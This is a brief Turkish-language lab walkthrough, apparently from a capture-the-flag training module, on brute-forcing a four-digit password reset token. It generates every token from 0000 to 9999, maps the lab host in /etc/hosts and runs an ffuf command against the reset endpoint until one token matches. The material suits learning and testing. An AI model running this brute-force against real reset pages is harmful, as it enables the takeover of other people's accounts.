

# Brute Forcing Password Reset Tokens

## Finding Weak Tokens



Web uygulamasına kayıt ol ve parolamı unuttum özelliğini kullan.

E-posta adresine gelen mesajı incele:

```output title="Output" hl_lines="7"
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

Elde edilen token 4 basamaklı bir sayıdır.

Bu sebeple tüm 4 basamaklı sayıları içeren bir liste üret:

!!! warning

    Bir, iki ve üç basamaklı sayılar sıfırlar ile dolduruldu.

```sh
my@attack:~$ seq -w 0 1 9999 > tokens.txt
my@attack:~$ head tokens.txt -n 20
```

```output title="Output"
0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
0010
0011
0012
0013
0014
0015
0016
0017
0018
0019
```

## Hosts File

```sh
my@attack:~$ echo "94.237.50.242 weak_reset.htb" | sudo tee -a /etc/hosts
```

## Attacking

!!! warning

    Halihazırda parola sıfırlama talep eden kullanıcılar olmalıdır.

```sh
my@attack:~$ ffuf -ic -w tokens.txt:FUZZ -u "http://weak_reset.htb:58421/reset_password.php?token=FUZZ" -fr "The provided token is invalid"
```

```output title="Output"
4891                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 108ms]
```
